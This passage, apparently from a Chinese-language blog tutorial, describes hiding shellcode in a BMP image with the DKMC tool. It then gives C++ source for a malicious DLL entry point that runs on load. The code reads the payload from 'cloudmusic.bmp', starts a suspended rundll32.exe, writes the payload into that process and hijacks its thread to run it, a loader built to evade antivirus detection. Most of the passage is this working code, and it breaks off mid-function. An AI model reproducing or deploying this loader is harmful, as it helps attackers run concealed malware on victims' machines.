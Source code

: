 这样还是不够的，因为没有加密处于裸奔的状态，写个加密算法又很麻烦，这就想到了把shellcode存放在图片内进行隐写。

这里需要用到开源的工具  
github:https://github.com/Mr-Un1k0d3r/DKMC

利用工具配合shellcode生成图片。  

![](https://gitee.com/fuli009/images/raw/master/public/20221026095116.png)

随后继续更改源代码，从图片文件读取shellcode。

源代码如下：

    
    
    // dllmain.cpp : 定义 DLL 应用程序的入口点。  
    #include "framework.h"  
    #include "windows.h"  
    #include "libcurl.h"  
    #include <stdlib.h>  
    #include <stdio.h>  
      
      
    BOOL APIENTRY DllMain( HMODULE hModule,  
                           DWORD  ul_reason_for_call,  
                           LPVOID lpReserved  
                         )  
    {  
        switch (ul_reason_for_call)  
        {  
        case DLL_PROCESS_ATTACH:  
        {  
            FILE* fp;  // 定义流式文件操作变量fp，FILE结构体在stdio.h里面有定义  
            size_t size;  // 定义文件字节数变量size  
            unsigned char* buffer;  // 定义缓存指针变量  
      
            fp = fopen("cloudmusic.bmp", "rb");  
            // fseek()负号前移，正号后移  
            fseek(fp, 0, SEEK_END);          // 文件指针指向文件末尾  
            // ftell()返回给定流 stream 的当前文件位置  
            size = ftell(fp);                // size值为文件大小  
            fseek(fp, 0, SEEK_SET);          // 文件指针指向文件开头  
            buffer = (unsigned char*)malloc(size);    // 动态申请图片大小的内存空间（数组指针）  
            fread(buffer, size, 1, fp);  // 从fp读取和显示1个size大小的数据  
      
            char* v7A = (char*)VirtualAlloc(0, size, 0x3000u, 0x40u);  
            memcpy((void*)v7A, buffer, size);  
      
            struct _PROCESS_INFORMATION ProcessInformation;  
            struct _STARTUPINFOA StartupInfo;  
            void* v24;  
            CONTEXT Context;  
            DWORD DwWrite = 0;  
            memset(&StartupInfo, 0, sizeof(StartupInfo));  
            StartupInfo.cb = 68;  
            BOOL result = CreateProcessA(0, (LPSTR)"rundll32.exe", 0, 0, 0, 0x44u, 0, 0, &StartupInfo, &ProcessInformation);  
            if (result)  
            {  
                Context.ContextFlags = 65539;  
                GetThreadContext(ProcessInformation.hThread, &Context);  
                v24 = VirtualAllocEx(ProcessInformation.hProcess, 0, size, 0x1000u, 0x40u);  
                WriteProcessMemory(ProcessInformation.hProcess, v24, v7A, size, &DwWrite);  
                Context.Eip = (DWORD)v24;  
                SetThreadContext(ProcessInformation.hThread, &Context);  
                ResumeThread(ProcessInformation.hThread);  
                CloseHandle(ProcessInformation.hThread);  
                result = CloseHandle(ProcessInformation.hProcess);  
            }  